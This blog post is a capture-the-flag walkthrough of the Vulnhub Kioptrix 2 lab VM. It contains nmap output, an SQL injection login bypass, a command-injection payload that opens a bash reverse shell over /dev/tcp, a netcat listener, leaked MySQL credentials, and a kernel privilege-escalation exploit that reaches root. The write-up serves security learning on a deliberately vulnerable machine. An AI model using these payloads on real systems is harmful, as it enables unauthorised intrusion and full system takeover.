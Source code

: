 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 2"
date:   2017-04-19 18:19:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix2.jpg
  credit:
  creditlink:
---
```


```bash
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.133	00:0c:29:9e:ff:2f	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.851 seconds (138.30 hosts/sec). 3 responded
```
```bash
root@kali:~# nmap -A 192.168.137.133

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-19 19:24 BST
Nmap scan report for 192.168.137.133
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            855/udp  status
|_  100024  1            858/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2017-04-19T15:15:02+00:00; -3h09m44s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:9E:FF:2F (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.137.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
```

I didn't really know SQL Injection going into this, and I did end up looking up the solution

```mysql
' or 1=1 --
```

This is a pretty standard example of an SQL injection and gives us access to form allowing us to ping a device on the network.  This immediately suggested some form of command injection.  Since it's a vulnerable machine, it seemed fairly obvious that we could input some other command.  So lets try and spawn a reverse shell.

```bash
192.168.137.128 && bash -i >& /dev/tcp/192.168.137.128/1234 0>&1
```

Boom!  We have a shell.

```bash
root@kali:/usr/share/wordlists# nc -l -p 1234 -vvv
listening on [any] 1234 ...
192.168.137.133: inverse host lookup failed: Unknown host
connect to [192.168.137.128] from (UNKNOWN) [192.168.137.133] 32771
bash: no job control in this shell
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ 
```

Let's have a look inside the php files and see if we see anything interesting.  Inside index.php after a little searching we find some credentials to the local mysql database.

```bash
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
```
Unfortunately, dumping the database didn't appear to yield us many more more ways of progressing.  So we have a look at the kernel version and search for exploits.

```
CentOS release 4.5 (Final)

Linux version 2.6.9-55.EL 
```
We searchsploit and come across a number of different candidates, but we find one in particular which appears to yield us some success.

```bash
Linux Kernel 2.4.x / 2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' Privilege Escalation 
```

Downloading and compiling greets us with the following error message:
```bash
bash-3.00$ ./9545
sh: no job control in this shell
```
So we just need to upgrade this shell to a tty.

```bash
>>> import pty
import pty
>>> pty.spawn('./9545')
pty.spawn('./9545')
sh-3.00# ls
ls
9542.c	9545  9545.c  break  dump.sql
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```
Rooted!
